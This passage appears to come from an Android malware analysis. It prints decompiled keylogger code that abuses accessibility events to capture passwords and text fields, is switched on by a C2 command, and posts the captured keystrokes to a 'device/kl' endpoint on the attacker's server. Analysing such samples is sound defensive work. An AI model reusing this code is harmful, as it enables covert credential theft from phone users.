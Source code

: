 ```cs

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

```

# Keylogger

The malware has the ability to keylog what the user enters such as `password` or any `edittext` contains a `hint`. Then send keylogging to the C2 server.

```cs
 if(accessibilityEvent0.isPassword()) {
                if(!s1.contains("•") && !s1.contains("*")) {
                    keyLoggerModel0.setText(s1);
                    return false;
                }

                if(s1.equals(accessibilityEvent0.getSource().getHintText())) {
                    keyLoggerModel0.setText("");
                    return false;
                }

                int v = keyLoggerModel0.getText().length();
                if(s1.length() > v) {
                    keyLoggerModel0.addToText(Character.toString(((char)s1.charAt(s1.length() - 1))));
                    return false;
                }

                keyLoggerModel0.removeLastFromText();
                return false;
            }

            keyLoggerModel0.setText(s1);
        }

        return false;
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        Boolean boolean0 = JsonUtils.hasObject(jsonObject0, "enable_keylogger") ? Boolean.valueOf(jsonObject0.get("enable_keylogger").getAsBoolean()) : null;
        if(boolean0 != null) {
            SharedPrefHelper.setIsKeyLoggerEnabled(this.context(), boolean0.booleanValue());
        }
    }

    public void onWindowStateChanged() {
        if(this.candidateToPass.size() > 0) {
            this.isRequestInProgress.set(true);
            Log.d("!!!!!", " SEND DATA TO SERVER " + this.candidateToPass);
            KeyLoggerModel keyLoggerModel0 = (KeyLoggerModel)this.candidateToPass.get(0);
            HashMap hashMap0 = new HashMap();
            hashMap0.put("messages", this.candidateToPass);
            this.api().makePost("device/kl", hashMap0).enqueue(new RestCallback() {
                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onError(Throwable throwable0) {
```